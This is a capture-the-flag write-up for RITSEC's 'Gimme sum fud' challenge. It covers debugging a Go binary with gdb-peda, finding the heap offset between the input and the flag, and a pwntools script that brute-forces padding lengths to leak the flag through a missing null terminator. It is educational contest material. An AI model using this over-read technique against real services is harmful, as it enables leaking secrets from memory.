

# Gimme sum fud



We are given two files:

* A binary named `pwn3`
* A placeholder `flag.txt` (fake) 

*Perhaps the binary reads a file named flag.txt?*

### Running the binary
* **Without flag.txt** it crashes
```
$ ./pwn3 
panic: open flag.txt: no such file or directory

goroutine 1 [running]:
main.main()
	/root/ritsecctf/challenge3/src/pwn3.go:35 +0x169
```
* **With flag.txt** it takes user input and reflects it.
```
$ ./pwn3 
Gimme some bytes, I'm hangry...
aaaaaaaaaaaaaaaaaaaaaaaaaaa
mmmmm...., your aaaaaaaaaaaaaaaaaaaaaaaaaaa
 is so good. Thanks. Bye.
```
By entering just one character, we can see that the binary seems to not nullbyte-terminate our input string.
```
$ ./pwn3 
Gimme some bytes, I'm hangry...
1
mmmmm...., your 1
� is so good. Thanks. Bye.
```

### Static analysis

Since the program is written in GO, it looked pretty unfamiliar (to me). In the main routine, however, we find two calls to `malloc` and a call to some `readfile` function. 


So maybe our input and the `flag.txt` from `readfile` gets placed on the heap somewhere? Let's find where our input is read so we can set a breakpoint on it. The binary seems to use some kind of wrapper for `gets`. Let's set a breakpoint on the `printf` that comes right after and debug.


### Debugging

```
$ gdb pwn3
gdb-peda$ b *0x000000000049206B
Breakpoint 1 at 0x49206b

gdb-peda$ r
Gimme some bytes, I'm hangry...
HelloHello
Thread 1 "pwn3" hit Breakpoint 1, 0x000000000049206b in main.main ()
```
Now we can use gdb-peda's awesome `find` alias to look for the string and our fake flag.
```
gdb-peda$ find HelloHello
<omitted>
[heap] : 0x563050 ("HelloHello\n", <incomplete sequence \304>)

gdb-peda$ find RITSEC
[heap] : 0x5635a0 ("RITSEC{NOT_THE_REAL_FLAG}\n")
```
Both strings are indeed placed on the heap! And the flag is at a higher address than our input. 

We saw earlier that our input doesn't seem to be nullbyte-terminated. So maybe we can merge our string with the flag by writing right up to it in memory. Let's find the offset between our string and the flag:

```
gdb-peda$ print 0x5635a0 - 0x563050
$1 = 0x550
```
Let's send `"A"*(0x550-1)` to account of the newline of `print`. This didn't work the first time, but because of the challenge **note** I ran it multiple times and eventually it worked!
```
$ python -c 'print "A"*(0x550-1)' | ./pwn3 
Gimme some bytes, I'm hangry...
mmmmm...., your AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
RITSEC{NOT_THE_REAL_FLAG}
```

### Solution
For the solution I just bruteforced the offset between our input and the flag in memory.

```python
#!/usr/bin/python2
from pwn import *

recieved = ""
length = 0x400
with context.quiet:
    while "SEC{" not in recieved and length < 0x700:
        p = process('./pwn3')
        #p = remote('fun.ritsec.club', 1338)
        payload = "A"*(length-1)
        p.sendlineafter('hangry...\n', payload)
        recieved = p.recvall()
        p.close()
        length += 0x10
print recieved.split('\n')[1]
```

```
$ ./exploit.py
RITSEC{Muff1n_G0verFl0w_mmmm}
```